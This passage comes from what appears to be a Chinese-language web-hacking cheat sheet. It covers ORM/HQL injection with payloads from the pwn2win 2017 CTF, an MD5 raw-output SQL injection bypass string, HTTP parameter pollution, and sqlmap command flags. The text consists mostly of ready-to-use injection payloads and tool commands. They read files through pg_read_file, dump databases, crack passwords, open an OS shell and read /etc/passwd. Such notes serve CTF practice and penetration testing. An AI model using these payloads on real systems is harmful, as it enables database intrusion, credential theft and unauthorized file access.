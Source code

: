         - 只能列data_directory下的

## ORM injection

https://www.slideshare.net/0ang3el/new-methods-for-exploiting-orm-injections-in-java-applications

- Hibernate
    - 单引号跳脱法
        - MySQL中，单引号用`\'`跳脱
        - HQL中，用两个单引号`''`跳脱
        - `'abc\''or 1=(SELECT 1)--'`
            - 在HQL是一个字符串
            - 在MySQL是字符串+额外SQL语句
    - Magic Function法
        - PostgreSQL中内建`query_to_xml('Arbitary SQL')`
        - Oracle中有`dbms_xmlgen.getxml('SQL')`

HQL injection example (pwn2win 2017)

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select table_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "flag": No such file or directory`

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select column_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "secret": No such file or directory`
- `order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select secret from flag)))',true,false,'')),1)`
    - Output: `ERROR: could not stat file "CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}": No such file or directory`


## SQL Injection with MD5

- `$sql = "SELECT * FROM admin WHERE pass = '".md5($password, true)."'";`
- ffifdyop
    - md5: `276f722736c95d99e921722cf9ed621c`
    - to string: `'or'6<trash>`

## HTTP Parameter Pollution

- `id=1&id=2&id=3`
    - ASP.NET + IIS: `id=1,2,3`
    - ASP + IIS: `id=1,2,3`
    - PHP + Apache: `id=3`

## SQLmap

- https://github.com/sqlmapproject/sqlmap/wiki/Usage
- Usage
    - `python sqlmap.py -u 'test.kaibro.tw/a.php?id=1'`
        - 库名: `--dbs`
        - 表名: `-D dbname --tables`
        - column: `-D dbname -T tbname --columns`
        - dump: `-D dbname -T tbname --dump`
            - `--start=1`
            - `--stop=5566`
        - DBA? `--is-dba`
        - 爆帐密: `--passwords`
        - 看权限: `--privileges`
        - 拿shell: `--os-shell`
        - interative SQL: `--sql-shell`
        - 读档: `--file-read=/etc/passwd`
        - Delay时间: `--time-sec=10`
        - User-Agent: `--random-agent`